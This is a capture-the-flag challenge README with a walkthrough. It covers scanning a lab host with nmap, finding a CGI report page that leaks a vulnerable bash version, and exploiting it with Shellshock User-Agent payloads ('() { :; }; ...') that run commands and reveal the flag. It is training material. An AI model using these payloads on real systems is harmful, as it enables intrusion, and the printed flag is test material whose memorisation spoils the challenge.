 # Shockwave Report

This challenge deploys a machine vulnerable to shellshock. 

### Task

A user must find HTTP endpoint that reports various system information via cgi-script including a bash version, discover
that the bash version is vulnerable to shellshock and exploit the script to pwn the system.



## How to solve
<details>
  <summary>Click to reveal how to solve steps</summary>

1. The task reveals IP address `172.20.0.39`. Let's nmap it:
```bash
root@hackerlab:~# nmap -n -v 172.20.0.39
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 07:18 UTC
Initiating ARP Ping Scan at 07:18
Scanning 172.20.0.39 [1 port]
Completed ARP Ping Scan at 07:18, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 07:18
Scanning 172.20.0.39 [1000 ports]
Discovered open port 80/tcp on 172.20.0.39
Completed SYN Stealth Scan at 07:18, 0.05s elapsed (1000 total ports)
Nmap scan report for 172.20.0.39
Host is up (0.0000070s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:14:00:27 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.26 seconds
           Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.032KB)
```

2. We find HTTP port 80. After sending some HTTP requests, we find /report endpoint:
```bash
root@hackerlab:~# curl 172.20.0.39
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>


root@hackerlab:~# curl 172.20.0.39/index.html
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="refresh" />
    <title>Redirecting...</title>
</head>
<body>
    <p>If you are not redirected, <a href="/report">click here</a>.</p>
</body>
</html>


root@hackerlab:~# curl 172.20.0.39/report    
<html><body>
<h1>System Information Report</h1>
<p><strong>Server Uptime:</strong>  07:19:28 up 31 min,  0 user,  load average: 1.01, 1.65, 1.45</p>
<p><strong>Disk Usage:</strong></p>
<pre>Filesystem                     Size  Used Avail Use% Mounted on
overlay                        914G  347G  522G  40% /
tmpfs                           64M     0   64M   0% /dev
shm                             64M     0   64M   0% /dev/shm
/dev/mapper/whatever--vg-root  914G  347G  522G  40% /etc/hosts
tmpfs                           16G     0   16G   0% /proc/asound
tmpfs                           16G     0   16G   0% /proc/acpi
tmpfs                           16G     0   16G   0% /sys/firmware
tmpfs                           16G     0   16G   0% /sys/devices/virtual/powercap</pre>
<p><strong>Memory Usage:</strong></p>
<pre>               total        used        free      shared  buff/cache   available
Mem:           31831        6686       17877         700        8426       25144
Swap:            975           0         975</pre>
<p><strong>Currently Logged In Users:</strong></p>
<pre></pre>
<p><strong>Top 5 Processes by CPU Usage:</strong></p>
<pre>    PID    PPID CMD                         %MEM %CPU
      1       0 httpd -DFOREGROUND           0.0  0.0
     64       1 httpd -DFOREGROUND           0.0  0.0
      8       1 httpd -DFOREGROUND           0.0  0.0
     36       1 httpd -DFOREGROUND           0.0  0.0
    109      64 /bin/bash /usr/local/apache  0.0  0.0</pre>
<p><strong>Network Configuration:</strong></p>
<pre></pre>
<!-- Debug Info: Bash Version: GNU bash, version 4.2.37(1)-release (x86_64-pc-linux-gnu) -->
<p><strong>Diagnostic Mode Disabled:</strong> Enable diagnostics by setting DEBUG=true in the environment.</p>
</body></html>
```
3. Among other information, the user should notice leaked bash version `GNU bash, version 4.2.37`. Google reveals that this
bash version is vulnerable to shellshock. Shellshock PoC can be then found online and used for RCE to find a flag.
```bash
root@hackerlab:~# curl -s -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/ls" 172.20.0.39/report 
printenv
printenv.vbs
printenv.wsf
report
test-cgi
root@hackerlab:~# curl -s -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat report" 172.20.0.39/report 
#!/bin/bash

# oh no, you found me :(
# BSY{cIAXNcTzjPEkH5nZU1LV6uPrSIvHpGPEoApUQXfkyftsZOmnsUokQeUfDmEW}

echo "Content-type: text/html"
echo
...
```





</details>

## Testing

The script [auto-solve.sh](./auto-solve.sh) automatically verifies that the challenge can be solved.